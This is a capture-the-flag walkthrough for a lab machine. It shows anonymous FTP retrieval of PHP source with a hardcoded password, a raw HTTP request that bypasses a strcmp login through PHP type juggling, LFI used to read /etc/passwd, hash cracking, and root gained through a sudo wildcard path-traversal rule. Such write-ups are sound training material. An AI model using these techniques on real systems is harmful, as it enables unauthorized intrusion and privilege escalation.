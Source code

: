 # Enumeration 

Starting with nmap
```bash

```
We have port 22(SSH), 80(HTTP) and 2112. Looking at script scan from nmap, we can tell that 2112 is running FTP.

## FTP
FTP has anonymous access allowed.
```bash
ftp 192.168.154.101 2112
Name (192.168.154.101:kali): anonymous
331 Anonymous login ok, send your complete email address as your password
Password:

ftp> dir
200 PORT command successful
150 Opening ASCII mode data connection for file list
-rw-r--r--   1 ftp      ftp           901 Aug  2  2020 index.php.bak
-rw-r--r--   1 ftp      ftp            54 Aug  2  2020 welcome.msg
```

Lets download the files. Looking at `Index.php.bak` file, we got the source-code. The code contains PHP code,  
```php
<?php

$pass= "potato"; //note Change this password regularly

if($_GET['login']==="1"){
  if (strcmp($_POST['username'], "admin") == 0  && strcmp($_POST['password'], $pass) == 0) {
    echo "Welcome! </br> Go to the <a href=\"dashboard.php\">dashboard</a>";
    setcookie('pass', $pass, time() + 365*24*3600);
  }else{
    echo "<p>Bad login/password! </br> Return to the <a href=\"index.php\">login page</a> <p>";
  }
  exit();
}
?>
```

Here, the code was checking for username to be admin and password to potato. Lets check the website.

## Port 80

![image](https://user-images.githubusercontent.com/43528306/147365833-a6d500a8-93e1-4e4f-9292-806f5577711b.png)

The website just contained `Under Construction` message. Lets start directory brute-forcing.
```bash
 ffuf -u http://192.168.154.101/FUZZ -w /usr/share/wordlists/dirb/common.txt -c -e .php,.txt

        /'___\  /'___\           /'___\
       /\ \__/ /\ \__/  __  __  /\ \__/
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
         \ \_\   \ \_\  \ \____/  \ \_\
          \/_/    \/_/   \/___/    \/_/

       v1.3.1 Kali Exclusive <3
________________________________________________

 :: Method           : GET
 :: URL              : http://192.168.154.101/FUZZ
 :: Wordlist         : FUZZ: /usr/share/wordlists/dirb/common.txt
 :: Extensions       : .php .txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405
________________________________________________

.htaccess               [Status: 403, Size: 280, Words: 20, Lines: 10]
.htpasswd               [Status: 403, Size: 280, Words: 20, Lines: 10]
admin                   [Status: 301, Size: 318, Words: 20, Lines: 10]
index.php               [Status: 200, Size: 245, Words: 31, Lines: 9]
index.php               [Status: 200, Size: 245, Words: 31, Lines: 9]
server-status           [Status: 403, Size: 280, Words: 20, Lines: 10]
:: Progress: [13842/13842] :: Job [1/1] :: 253 req/sec :: Duration: [0:00:58] :: Errors: 0 ::
```
Looking at the results, we found `/admin`. Navigating to it, there's a login form.

![image](https://user-images.githubusercontent.com/43528306/147365858-8ff80a8c-a706-42f7-863c-9c7cf40292e0.png)

We have credentials from the source-code we got via FTP. Using the credentials, we were not able to login. Maybe it was changed
```php
$pass= "potato"; //note Change this password regularly
```
 
Looking back at the source-code, we see 
```php
if (strcmp($_POST['username'], "admin") == 0  && strcmp($_POST['password'], $pass) == 0)
```
 
The code was using `strcmp` with loose comparision (==). We have same case in [this](https://owasp.org/www-pdf-archive/PHPMagicTricks-TypeJuggling.pdf), which refers
to `PHP Type Juggling`. According to it, we can simply pass an array in password field, which will make the 
```php
strcmp(array(),$pass) -> NULL
```
And NULL == 0, which will make the condition true and bypass the authentication.
 
```bash
POST /admin/index.php?login=1 HTTP/1.1
Host: 192.168.157.101
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 29
Origin: http://192.168.157.101
Connection: close
Referer: http://192.168.157.101/admin/index.php
Upgrade-Insecure-Requests: 1

username=admin&password[]=admin
```
We now have access to admin panel

![image](https://user-images.githubusercontent.com/43528306/147366023-a308d85b-6302-47e0-b0d0-ff119221d2ff.png)

Looking at the options on the page, we found that the log server was vulnerable to LFI

###  Exploiting LFI
The `log` option was allowing us to choose the log file and we can look at them. The request was taking a `file` post parameter, this was vulnerable to LFI.
We can try using LFI payload to retrieve passwd file and we were indeed successful.

![image](https://user-images.githubusercontent.com/43528306/147366338-104b85a1-93e9-4675-b478-0dfbb7a9be67.png)

Looking at the output, we can see the password for user named `webadmin`. We can try cracking this hash using *John The Ripper*. 
```bash
Warning: detected hash type "md5crypt", but the string is also recognized as "md5crypt-long"
Use the "--format=md5crypt-long" option to force loading these as that type instead
Using default input encoding: UTF-8
Loaded 1 password hash (md5crypt, crypt(3) $1$ (and variants) [MD5 256/256 AVX2 8x3])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
dragon           (?)
1g 0:00:00:00 DONE (2021-12-24 22:41) 3.571g/s 1371p/s 1371c/s 1371C/s 123456..michael1
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```
We were successfully able to crack the password. We can now ssh into the box.

### Shell as webadmin

We now have shell as `webadmin`, checking for the sudo permissions
```bash
webadmin@serv:/tmp$ sudo -l
Matching Defaults entries for webadmin on serv:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User webadmin may run the following commands on serv:
    (ALL : ALL) /bin/nice /notes/*
```
*Webadmin* was allowed to run `nice` binary on `/notes/*`.

According to [wikipedia](https://en.wikipedia.org/wiki/Nice_(Unix))
> nice is used to invoke a utility or shell script with a particular CPU priority


Also, there's a wildcard too which makes it vulnerable. We can here simply climb up the directory and execute our script as root. 
Lets create a simple bash script to test it 
```bash
webadmin@serv:~$ chmod +x test.sh;cat test.sh 
whoami
webadmin@serv:~$ pwd
/home/webadmin
webadmin@serv:~$ sudo /bin/nice /notes/../home/webadmin/test.sh
root
```
We were able to execute the script as root. We can now change the content of our script to `bash -p` and get shell as root
```bash
root@serv:~# id
uid=0(root) gid=0(root) groups=0(root)
```

ROOT!!
